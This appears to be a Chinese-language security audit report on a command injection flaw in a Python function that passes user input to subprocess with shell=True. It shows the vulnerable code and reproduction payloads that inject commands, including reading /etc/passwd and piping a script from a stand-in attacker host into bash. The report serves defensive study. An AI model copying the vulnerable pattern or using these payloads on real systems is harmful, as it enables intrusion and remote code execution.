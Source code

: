 # 安全审计报告：命令注入漏洞分析

## 1. 命令注入漏洞

### 漏洞信息
- **漏洞名称**：命令注入（Command Injection）
- **风险等级**：高危
- **OWASP 分类**：OWASP Top 10 2021 - A03:2021 – Injection
- **CWE 编号**：CWE-78: OS Command Injection
- **CVSS 评分**：9.8 (关键) 
  - 攻击向量：网络
  - 攻击复杂度：低
  - 权限要求：无
  - 用户交互：无
  - 影响范围：系统级
  - 机密性影响：高
  - 完整性影响：高
  - 可用性影响：高

### 漏洞描述
在文件 `cmd_injection_vuln.py` 中的 `list_path()` 函数存在严重的命令注入漏洞。该函数直接将用户输入拼接到系统命令中，并使用 `subprocess.run()` 执行，且启用了 `shell=True` 选项。

**漏洞代码位置**：
```python
def list_path(user_input: str):
    if platform.system() == "Windows":
        cmd = f"dir {user_input}"
    else:
        cmd = f"ls {user_input}"
    # 漏洞位于此行
    subprocess.run(cmd, shell=True)
```

### 潜在危害
1. **任意命令执行**：攻击者可以注入分隔符（如 `&`, `|`, `;`）来执行任意系统命令
2. **系统控制**：可能导致完整的系统接管
3. **数据泄露**：可以读取、修改或删除系统文件
4. **权限提升**：在某些情况下可能导致特权提升
5. **持久化攻击**：可能植入后门或恶意程序

### 漏洞复现
示例攻击向量：
```python
# Windows系统:
list_path(". & echo INJECTED> injected.txt")  # 创建文件
list_path(". & net user")                     # 查看系统用户
list_path(". & type sensitive.txt")           # 读取敏感文件

# Linux系统:
list_path(". ; touch injected.txt")           # 创建文件
list_path(". ; cat /etc/passwd")              # 读取密码文件
list_path(". ; curl http://attacker.com/backdoor | bash")  # 下载并执行恶意脚本
```
